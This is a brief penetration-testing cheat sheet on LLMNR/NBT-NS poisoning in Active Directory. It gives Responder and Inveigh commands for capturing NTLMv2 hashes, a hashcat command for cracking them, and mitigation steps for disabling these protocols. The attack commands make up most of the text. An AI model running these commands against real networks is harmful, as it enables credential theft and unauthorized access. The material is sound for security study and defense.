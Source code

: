 ```yaml
---
tags:
  - Initial-Access
  - LLMNR
  - NETBIOS
  - AD
---
```

## From Linux
---

[https://github.com/SpiderLabs/Responder](https://github.com/SpiderLabs/Responder)
```Python
sudo responder -I eth0 
```
Wait for hashes to come in
Crack them with
```Python
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```
## From Windows
---
### **Using Inveigh**
https://github.com/Kevin-Robertson/Inveigh
```Python
Import-Module .\Inveigh.ps1
```
```Python
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```
### **C# Inveigh (InveighZero)**
```Python
.\Inveigh.exe
```
We can quickly view unique captured hashes by typing `GET NTLMV2UNIQUE`. We can type in `GET NTLMV2USERNAMES` and see which usernames we have collected. This is helpful if we want a listing of users to perform additional enumeration against and see which are worth  
attempting to crack offline using Hashcat.

## Mitigation
---
1. Select "Turn OFF multicast Name Resolution" under Local Computer Policy > Computer Configuration > Administrative Templates > Network > DNS Client in the Group Policy Editor
2. Disable NBT-NS navigate to Network Connections > Network Adapter Properties > TCP/IPv4 Properties > Advanced tab > WINS tab and select "Disable NetBios over TCP/IP". 
**If you cannot disable for whatever reason**
- Require Network Access Control (NAC)
- Require strong passwords: over 14 characters with capitals and symbols and no common words. The better the password, the longer it takes an attacker to crack the hash